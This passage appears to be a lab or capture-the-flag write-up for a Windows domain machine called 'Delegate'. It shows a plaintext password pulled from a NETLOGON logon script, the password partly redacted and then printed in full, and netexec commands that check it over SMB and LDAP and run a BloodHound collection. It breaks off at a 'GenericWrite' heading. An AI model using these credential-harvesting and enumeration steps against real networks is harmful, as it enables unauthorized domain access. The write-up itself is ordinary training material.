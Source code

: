 we have users.bat in NETLOGON lets dump it

```
➜  delegate cat users.bat 
rem @echo off
net use * /delete /y
net use v: \\dc1\development 

if %USERNAME%==A.Briggs net use h: \\fileserver\backups /user:Administrator P<redacted>123
```

and yeah we got here password

A.Briggs : P<redaccted>123

```
➜  delegate nxc smb DC1 -u 'A.Briggs' -p 'P4ssw0rd1#123'   
SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
SMB         10.10.85.108    445    DC1              [+] delegate.vl\A.Briggs:P4ssw0rd1#123 
```
and yeah its works so lets check ldap

its work and yeah

```
➜  delegate nxc ldap DC1 -u 'A.Briggs' -p 'P4ssw0rd1#123'
SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
LDAP        10.10.85.108    389    DC1              [+] delegate.vl\A.Briggs:P4ssw0rd1#123 
```

now we can dump BH data

```
➜  delegate nxc ldap DC1.delegate.vl -u 'A.Briggs' -p 'P4ssw0rd1#123' --bloodhound --dns-server 10.10.85.108 --collection All
SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
LDAP        10.10.85.108    389    DC1              [+] delegate.vl\A.Briggs:P4ssw0rd1#123 
LDAP        10.10.85.108    389    DC1              Resolved collection methods: container, localadmin, rdp, dcom, session, acl, trusts, objectprops, group, psremote
LDAP        10.10.85.108    389    DC1              Done in 00M 13S
LDAP        10.10.85.108    389    DC1              Compressing output into /root/.nxc/logs/DC1_10.10.85.108_2025-03-06_074544_bloodhound.zip
➜  delegate 
```
for full users list
```➜  bloodhound cat DC1_10.10.85.108_2025-03-06_074544_users.json | jq -r '.data[].Properties.samaccountname' 
null
N.Thompson
b.Brown
J.Roberts
R.Cooper
krbtgt
Administrator
A.Briggs
Guest
```
## GenericWrite

